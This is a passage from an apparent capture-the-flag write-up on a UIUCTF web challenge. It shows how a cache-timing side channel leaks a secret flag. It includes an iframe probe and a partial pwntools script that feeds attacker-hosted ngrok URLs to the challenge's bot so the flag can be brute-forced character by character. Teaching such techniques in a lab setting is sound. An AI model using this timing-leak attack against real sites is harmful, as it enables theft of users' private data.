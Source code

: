 ```html

<iframe id="ifr" src="https://chal.yana.wtf/#uiuctf{">
```

Now close your eyes, pray to Crom and Mitra, and call the bot!

![cache non-flag 1](img/flag_substring_loading_time.png)

Now we're on the game! The loading time when there is a correct flag substring consistently around **3 ms**. We have a feasible timing attack!

## Brute-forcing the flag

Now we have a way to find the next character by testing every possible char after the flag start, "uiuctf{", following the regex they gave us in the bot source: "uiuctf{[a-z0-9_]}". 
It's just 39 attempts per char position so... feasible enough, but you don't wanna test every char in every position by hand, so let's automate sending the URL to the bot:

```python
import time
from pwn import *
from multiprocessing import Pool

start = "https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{"

def attack_list(charlist):

    # Test every char in the charlist
    for ch in charlist:
        # Connect to the socket to send the URL
        r = remote('yana-bot.chal.uiuc.tf', 1337)
        url = start + ch
        r.sendafter('Please send me a URL to open.\n', url + '\n')
        log.info(r.recvline())
        time.sleep(1)

# Divided the charlist in groups to paralellize
charlists = [
    '_0123456', 
    '789aeiou', 
    'Xbcdfghj',
    'klmnpqrs',
```